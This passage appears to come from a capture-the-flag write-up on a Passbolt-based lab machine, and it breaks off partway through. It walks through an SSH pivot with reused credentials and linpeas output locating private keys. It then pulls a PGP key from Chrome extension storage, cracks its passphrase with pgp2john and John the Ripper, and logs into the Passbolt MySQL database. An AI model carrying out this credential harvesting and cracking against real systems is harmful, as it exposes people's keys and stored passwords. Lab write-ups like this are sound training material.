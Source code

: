 ```console

```
Reading the passwd file gives us the username clark and eddie. Trying to log in via ssh as eddie with the password found above works, and we have successfully pivoted to the eddie user. 
## Privilege escalation
Running linpeas once more we get the following interesting output:
```console
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
/home/eddie/.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/index.min.js
/home/eddie/.config/google-chrome/Default/Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/vendors/openpgp.js
/home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log
```
If we read `000003.log`{: .filepath} we quickly stumble across a private PGP key. Copying the key to a text file on our local machine we can use `pgp2john` to extract the hash from the key.
```console
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                                                                                                                           
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 16777216 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 8 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:29 0.05% (ETA: 2022-06-21 08:22) 0g/s 60.79p/s 60.79c/s 60.79C/s patch..maranatha
merrychristmas   (Eddie Johnson)     
1g 0:00:12:09 DONE (2022-06-18 01:07) 0.001370g/s 58.71p/s 58.71c/s 58.71C/s mhines..megan5
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
We can use the credentials found previously to access the mysql database on the system with the passbolt user via the command `mysql -u passbolt -p`.
```console
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| passboltdb         |
+--------------------+
2 rows in set (0.01 sec)

mysql> use passboltdb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_passboltdb  |
+-----------------------+
| account_settings      |
| action_logs           |
| actions               |
| authentication_tokens |
| avatars               |
```